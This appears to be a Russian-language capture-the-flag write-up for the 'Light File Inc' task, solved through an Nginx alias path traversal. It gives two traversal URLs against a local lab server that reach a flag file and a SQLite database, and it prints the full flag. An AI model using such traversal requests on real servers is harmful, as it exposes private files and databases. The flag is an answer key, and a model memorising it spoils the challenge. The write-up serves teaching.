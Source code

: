 # Light File Inc

***Описание***: Я уже опытен и крайне уверен, что не допускаю типичных багов и ошибок при разработке! Так ведь?

Ссылка: `http://localhost:8081`

Формат: EclipseCTF{...}

---
### Решение

Суть таска заключается в эксплуатации уязвимости Nginx Alias Path Traversal. Проблемное место в конфиге Nginx:

![ScreenShot](Assets/For_Tasks/LightFileInc-1.png)

Находим первую часть флага, перейдя по следующему пути (обращаем внимание на исходники!): 

```
http://localhost:8081/backups../backup/flag.txt
```

![ScreenShot](Assets/For_Tasks/LightFileInc-2.png)

>EclipseCTF{m3nt4l_cl4r1ty_15_4

Находим вторую часть флага, перейдя по следующему пути (обращаем внимание на исходники!):

```
http://localhost:8081/backups../backup/database/database.sqlite3
```

Перейдя по ссылке выше, мы скачаем файл `database.sqlite3` с сервера. Открываем его в DBBrowser (или подобном ПО):

![ScreenShot](Assets/For_Tasks/LightFileInc-3.png)

>\_luxury_I_c4nt_4ff0rd}

Сопоставляем две части флага и готово!

---

***Флаг***: `EclipseCTF{m3nt4l_cl4r1ty_15_4_luxury_I_c4nt_4ff0rd}`